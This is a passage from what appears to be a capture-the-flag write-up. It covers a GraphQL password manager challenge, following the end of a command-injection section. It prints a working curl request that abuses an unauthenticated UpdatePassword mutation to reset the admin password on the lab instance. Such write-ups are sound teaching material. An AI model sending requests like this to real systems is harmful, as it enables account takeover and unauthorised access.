 ![Gunhead command injection](img/commandinjection.png)


### Flag

`HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}`

---

## Passman

### Summary

We are given a password manager app with the source code. The app uses graphql to handle data and we find a mutation `UpdatePassword` that does not check the session cookie to authenticate user and we can use it change the password of the admin user.

### Solution

I actually forgot I have the source code for this challenge and I was inspecting the network requests with Burpsuite and I saw that it sends post requests to `/graphql` to fetch data. I then found out that you can dump the graphql schema using [introspection](https://graphql.org/learn/introspection/). I know that graphql leaves authentication up to the developer to implement so I tried to change the admin password with my current user and it was successful. Here is the curl command to change the admin password:

```bash
curl 'http://159.65.94.38:30254/graphql' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/json' \
  -H 'Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InZ5bXZuIiwiaXNfYWRtaW4iOjAsImlhdCI6MTY3OTY4OTUyNn0.CMSI-yjJ6lFOL5ur0055kOmEIhZ03pQ2hyajVkOxBW4' \
  -H 'Sec-GPC: 1' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36' \
  --data-raw $'{"query":"mutation($username: String\u0021, $password: String\u0021) { UpdatePassword(username: $username, password: $password) { message, token } }","variables":{"username":"admin","password":"b"}}' \
  --compressed \
  --insecure
```

It just sends a mutation query of type `UpdatePassword` and the user is `admin` and password is `b`.

And now we can login as admin and get the flag

![Getting Passman flag](img/passmanflag.png)

### Flag

`HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}`



